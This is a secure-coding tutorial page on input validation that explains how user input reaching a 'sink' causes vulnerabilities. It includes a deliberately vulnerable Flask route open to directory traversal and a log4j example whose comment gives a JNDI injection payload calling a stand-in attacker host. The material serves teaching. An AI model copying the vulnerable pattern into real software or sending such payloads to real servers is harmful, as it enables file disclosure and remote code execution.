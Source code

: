 ```yaml
---
title: 1.4 General Rule Of Thumb
author: Riccardo ten Cate
date: 03-12-2024
category: Jekyll
layout: post
---
```


The general rule of thumb in input validation is to avoid giving an attacker control over the object that is passed into a function, parser, or operator. This means that user input should not be directly passed into a function, but rather should be validated and sanitized first. For example, in the case of a file operator, an attacker could inject malicious data and cause a directory traversal attack.

So, what exactly does that mean?

### example-1

```python
@app.route("/home", methods=['POST'])
def home():
    filename = request.form['filename']
    if filename == "":
        filename = "default.txt"
    f = open(filename, 'r')
    read = f.read()
    return render_template("index.html", read=read)
```

`   `In this example, we observe that when the so-called "source"  
`filename = request.form['filename']`  
  
Used in the following _**sink**_ or in this case a **_File operator_**  
`f = open(filename,'r')`  
  
This will lead to a security vulnerability called Local **_file inclusion_**|| **_Directory traversal_** attack. This attack was preventable by applying the secure design principles mentioned above. We will dig further into this example and how to mitigate it in the chapter that covers the _white listing_ mitigation strategy.

### example-2

Even though that at the time of writing the code log4j did not directly impose a great security risk, a lot of trouble could have been prevented by not directly writing user-supplied input directly into the **_l__**og**.error()_** function.

```java
import org.apache.log4j.Logger;
import java.io.*;
import java.util.*;

public class log4jExample{
    /* Get actual class name to be printed on */
    static Logger log = Logger.getLogger(log4jExample.class.getName());

    public static void main(String[] args){
        // input could look like:
        // ${jndi:rmi://hackerbox.com:1337/exploit}
        log.error(USER_INPUT_HERE);
    }
}
```

The same principles as mentioned in the **_directory / path traversal_** example are applied to this example as well. Don't give an attacker full control over an _**object**_ that goes into a _**sink**_. More in-depth information about the **_Log4J_** Vulnerability can be found in the _**Sources**_ Section


In conclusion, input validation is an essential aspect of software security and should be given the attention it deserves. By using the appropriate validation strategies and following best practices, software systems can be made more secure and better protected against malicious attacks.